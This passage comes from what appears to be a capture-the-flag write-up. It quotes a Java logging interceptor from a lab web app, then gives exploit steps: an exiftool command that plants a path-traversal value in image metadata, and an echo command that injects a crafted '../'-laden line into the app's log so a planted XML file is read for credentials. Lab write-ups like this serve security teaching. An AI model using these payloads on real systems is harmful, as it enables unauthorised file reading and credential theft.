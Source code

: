 This is where `/credits` come in. The logs are then written to `/opt/panda_search/redpanda.log`.

```java
public class RequestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle (HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        System.out.println("interceptor#preHandle called. Thread: " + Thread.currentThread().getName());
        return true;
    }

    @Override
    public void afterCompletion (HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        System.out.println("interceptor#postHandle called. Thread: " + Thread.currentThread().getName());
        String UserAgent = request.getHeader("User-Agent");
        String remoteAddr = request.getRemoteAddr();
        String requestUri = request.getRequestURI();
        Integer responseCode = response.getStatus();
        /*System.out.println("User agent: " + UserAgent);
        System.out.println("IP: " + remoteAddr);
        System.out.println("Uri: " + requestUri);
        System.out.println("Response code: " + responseCode.toString());*/
        System.out.println("LOG: " + responseCode.toString() + "||" + remoteAddr + "||" + UserAgent + "||" + requestUri);
        FileWriter fw = new FileWriter("/opt/panda_search/redpanda.log", true);
        BufferedWriter bw = new BufferedWriter(fw);
        bw.write(responseCode.toString() + "||" + remoteAddr + "||" + UserAgent + "||" + requestUri + "\n");
        bw.close();
    }
}
```

So this is where we have to enter our malicious string to start our exploit.

### Exploit

First, let's grab the image from the website and change the metadata using `exiftool`.

```
$ exiftool -Artist="../tmp/read" lazy.jpg
    1 image files updated
```

The reason we are using this is because the XML files would be read from `/credits../tmp/read.xml` after a single `../`. Then we need to transfer our XML file over as `read_creds.xml`.&#x20;

Afterwards, we can create our malicious string based on the template and drop it into `/opt/panda_search/redpanda.log`:

```
echo 'a||aa||aa||../../../../../../../../../../../../../tmp/read.jpg' >> redpanda.log
```
